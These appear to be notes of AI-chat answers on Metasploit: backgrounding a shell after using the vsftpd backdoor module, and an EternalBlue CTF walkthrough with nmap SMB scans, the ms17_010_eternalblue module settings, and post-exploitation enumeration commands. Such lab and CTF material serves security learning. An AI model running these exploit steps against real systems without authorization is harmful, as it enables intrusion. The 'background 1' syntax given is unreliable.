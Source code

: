 - How to background shell in metasploit
	- To background a shell in Metasploit, you can use the `background` command. Here's a step-by-step guide on how to do it:
	  
	  1. Start by launching Metasploit. Open a terminal or command prompt and enter the following command:
	     ```
	     msfconsole
	     ```
	  
	  2. Once Metasploit loads, use the `exploit` command to select and execute an exploit module. For example, if you want to exploit a vulnerable FTP server, you can use the `exploit/unix/ftp/vsftpd_234_backdoor` module. Type the following command:
	     ```
	     use exploit/unix/ftp/vsftpd_234_backdoor
	     ```
	  
	  3. Set the required options for the exploit module. You may need to provide values for options like `RHOST` (target IP address), `RPORT` (target port), or others. Use the `show options` command to view and set the required options. For example:
	     ```
	     set RHOST <target_ip>
	     ```
	  
	  4. Once you have set the required options, run the `exploit` command to launch the exploit against the target:
	     ```
	     exploit
	     ```
	  
	  5. If the exploit is successful and you gain a shell access, you can use the `sessions` command to list active sessions. Identify the session number of the shell you want to background.
	  
	  6. Now, to background the shell and return to the Metasploit console, use the `background` command followed by the session number. For example, if the session number is 1, enter:
	     ```
	     background 1
	     ```
	  
	  7. The shell will be successfully backgrounded, and you will return to the Metasploit console, allowing you to continue using other exploits or modules.
	  
	  Remember to keep an eye on your backgrounded sessions with the `sessions` command in case you need to switch back to a specific session later.
	- How to complete the eternal blue CTF give me the commands only
		- Completing the Eternal Blue CTF (Capture the Flag) challenge requires a combination of technical skills, research, and problem-solving. Here are some steps you can follow:
		  
		  1. Understand the Basics: Familiarize yourself with the concept of the Eternal Blue exploit. Research what it is, how it works, and the vulnerabilities it targets.
		  
		  2. Study Networking and Exploitation: Gain a solid understanding of networking protocols, such as SMB (Server Message Block). Learn about common exploitation techniques and tools used to exploit vulnerabilities like Eternal Blue.
		  
		  3. Set up a Lab: Create a testing environment to practice on. Set up virtual machines with vulnerable systems like Windows XP or Windows 7.
		  
		  4. Research and Analyze: Look for information related to the Eternal Blue CTF challenge. Study any available hints, instructions, or guidelines provided by the CTF organizers. Analyze any provided tools or scripts.
		  
		  5. Exploit the Vulnerability: Use the tools and scripts you obtained in the previous step to attempt to exploit the Eternal Blue vulnerability. Follow the necessary steps carefully, ensuring you're targeting the correct systems and utilizing correct parameters.
		  
		  6. Capture the Flag: Once you successfully exploit the vulnerability and gain access to the target system, search for the flag. The flag may be in the form of a file, text, or key that you need to discover or retrieve.
		  
		  7. Document and Learn: Take notes of your steps, techniques, and any lessons learned during the process. This documentation will help you understand the exploit better and improve your skills.
		  
		  Remember, CTF challenges are designed to be challenging, so don't get discouraged if you face difficulties. Keep researching, practicing, and learning from each attempt.
		- To complete the Eternal Blue CTF, you'll need to utilize the following commands:
		  
		  1. Scan the target for open ports and services:
		      `nmap -p- <target IP>`: This command will scan all ports on the target IP to identify which services are running.
		  
		  2. Enumerate the target's SMB service:
		      `nmap -p 445 --script=smb-vuln* <target IP>`: This script will check for any known SMB vulnerabilities on port 445.
		  
		  3. Exploit the Eternal Blue vulnerability using Metasploit:
		      Launch Metasploit framework using the command: `msfconsole`
		      Search for the Eternal Blue exploit module: `search ms17-010`
		     - Select the appropriate exploit module, usually `exploit/windows/smb/ms17_010_eternalblue`
		      Set the required options, including the target IP: 
		       ```
		       set RHOSTS <target IP>
		       set RPORT 445
		       set PAYLOAD <selected payload>
		       ```
		     - Exploit the target system by running the command: `exploit`
		  
		  4. Gain a reverse shell on the exploited system, specifying the appropriate payloads and options.
		  
		  5. Enumerate and escalate privileges as needed to complete the CTF objectives. Use various commands, such as:
		      `whoami`: To check the current user privileges
		      `net user`: To list available users
		      `net group administrators`: To display members of the Administrators group
		      `systeminfo`: To gather system information
		     `tasklist`: To list running processes
		     `reg query`: To query the Windows registry for valuable information
		      `cd`: To navigate through the file system
		     `copy`: To copy files to and from the target system
		  
		  Please note that the use of these commands must comply with the appropriate legal and ethical guidelines. Always obtain proper authorization before conducting any penetration testing activities.
		-